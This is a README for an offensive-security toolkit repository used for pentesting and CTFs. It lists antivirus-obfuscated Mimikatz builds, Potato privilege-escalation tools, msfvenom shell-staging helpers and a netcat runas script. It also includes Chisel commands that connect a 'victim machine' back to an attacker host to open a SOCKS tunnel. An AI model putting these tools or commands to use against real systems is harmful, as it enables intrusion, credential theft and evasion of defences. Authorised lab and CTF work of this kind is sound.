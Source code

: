# Kali Lootbox

This is a random collection of really handy scripts and binaries for use in pentesting or CTF. Some of the stuff I had to compile by hand because I couldn't find I couldn't find it anywhere else. Here's a list of the coolest stuff.

Some random things included...

* Chisel Client Socks - Static binaries for x86/x64 win/lin. This is a really cool tunneling application, but never supported reverse dynamic port forwarding with SOCKS5. I found some code that enables this support, and compiled the static binaries for both OS and architectures. Usage is like

```
# on kali box:
./chisel server -p 8080 --reverse

# on victim machine
chisel client 10.10.14.3:8080 R:socks

# edit /etc/proxychains.conf and change bottom line to:
socks5 127.0.0.1 1080

```

**Mount Shared Folder in VMWare**
It is unbelievable to me that Shared Folders in VMWare don't automatically mount or work in any way on Kali without jumping through hoops. I wrote a quick script you can run to mount the folder.

**Mimikatz** 
* Old binaries that still work well on server 2019
* A custom compiled version with some obfuscation
* Powershell obfuscation script based on BlackHills Infosec article:
https://www.blackhillsinfosec.com/bypass-anti-virus-run-mimikatz/

**Juicy and Rogue Potato Privesc Techniques**
* x86 version of Juicy Potato is nowhere to be found, adapted the project to work for a CTF that required it.

* RoguePotato - A newer adapter version of Juicy that works on the more modern patch levels of Windows

**Watson and Seatbelt**
* compile latest version of these awesome privesc tools

**Powershell scripts**
* A handful of random powershell scripts that query AD information. 
* A fix for Powercat that doesn't require you to hit the enter key of the victim side. Not sure why that is even a thing but it is.
* A runas script that works a lot like sudo for Windows. The example uses a user to launch netcat, but you can use any binary you want.

**Metasploit/MSFVenom Automation**
* Wrote some quick helper scripts to automatically create msfvenom payloads, and supplementary Metasploit resource files to catch with multi/handler. Makes it really quick and easy to stage a shell and listener.

**Misc Python Scripts**
* The badchars array for buffer overflow
* A script for automating VRFY lookups with a text file of addressess
* A simple ping scanner